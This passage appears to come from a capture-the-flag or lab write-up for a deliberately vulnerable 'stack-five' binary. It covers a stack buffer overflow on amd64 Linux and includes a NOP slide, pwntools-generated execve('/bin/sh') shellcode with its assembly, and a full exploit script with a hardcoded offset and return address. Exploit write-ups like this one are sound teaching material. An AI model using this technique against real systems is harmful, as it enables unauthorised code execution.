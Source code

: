 ```python
nop_slide = b'\x90' * 100
```

### Part 3 - Shellcode

For this part we can find shellcode to execute `exevce("/bin/sh")` for an amd64 linux system online. But I am going to use `shellcraft` from the pwntools library to generate the shellcode.

```python
shellcode = asm(shellcraft.linux.sh())
```

I did not have to specify architecture becuase I set the context at the start of the script.

The output of that line will be be the raw shellcode bytes resturned by `asm()`. The output of `shellcraft.linux.sh()` is the assembly code for executing `execve("/bin/sh")`.

# Exploiting

Now that we have the payload set up, the final exploit will be:

```python
#!/usr/bin/env python3

from pwn import *

# Defining binary
exe = context.binary = ELF('./stack-five', checksec=False)
p = process(exe.path)
context.update(arch="amd64")

# The offset and padding we need to overflow the buffer
OFFSET  = 136
PADDING = b'A' * OFFSET

# Building payload
rip = p64(0x7fffffffebe8 + 40) # new rip -> rsp
nop_slide = b'\x90' * 100
shellcode = asm(shellcraft.linux.sh()) # Output from shellcraft will be the assembly code below. using asm() to compile it into raw bytes

'''
Shellcode in assembly:
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall
```